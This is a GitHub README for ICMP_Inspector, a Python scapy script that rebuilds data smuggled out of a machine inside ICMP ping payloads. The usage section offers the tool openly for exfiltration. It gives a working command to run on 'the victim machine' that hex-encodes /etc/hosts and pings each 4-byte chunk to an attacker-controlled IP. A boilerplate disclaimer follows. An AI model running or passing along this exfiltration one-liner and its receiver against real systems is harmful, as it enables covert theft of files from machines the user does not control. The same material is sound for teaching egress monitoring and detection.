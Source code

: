 # ICMP_Inspector

**ICMP_Inspector** is a lightweight Python script designed to capture and analyze incoming ICMP packets on the `eth0` interface designed specifically to extract hidden data sent via the ICMP protocol.

> [!NOTE]  
> **Have in mind content can be exfiltrated from a machine via "sending pings" to other machines because icmp protocol tough ping can send up to 4bytes of data. This program specializes in retrieving this info and show it like it was in the host before the exfil.**

## Features
- Captures incoming ICMP packets in real-time.
- Filters packets specifically from the `eth0` interface.
- Parses the data to get the most accurate standart output from the machine.
- Lightweight and easy to use, suitable for quick testing or debugging.

## Requirements
- Python 3.x
- Libraries: `scapy`

## Installation
1. Clone this repository:
   ```bash
   git clone https://github.com/zer0plusone/ICMPInspector.git
   cd ICMPInspector
   ```
2. Install the required dependencies:
   ```bash
   pip install scapy
   ```

## Usage
Run the script with root privileges to capture packets:
```bash
sudo python3 ICMP_dataExfilter.py
```

### Example of ssage

Lets say you tried to send the archive /etc/hosts from a linux machine to your own machine.

First of all you will have to execute the next comand in the victim machine:
```bash
xxd -p -c 4 /etc/hosts | while read line; do ping -c 1 -p $line $YOUR_IP; done
```

The ICMP protocol will send the data in packets of 4 bytes to your machine, you will have to have the script running in your terminal by the moment you press enter in the other command. The final result and what you will see in your terminal will be the full content of the archive as it should look in the victim machine.

## Disclaimer
1. Use this tool responsibly and only on networks where you have explicit permission.

2. Unauthorized packet inspection may violate laws or regulations in your jurisdiction.

3. THE DEVELOPER OF THIS PROGRAM ISN'T RESPONSIBLE FOR THE USE THIRD PARTY USERS GIVE TO THIS REPOSITORY.

## License
This project is licensed under the MIT License. See the `LICENSE` file for details.

## Contributions
Contributions are welcome! Fork the repository, make your changes, and submit a pull request for review.
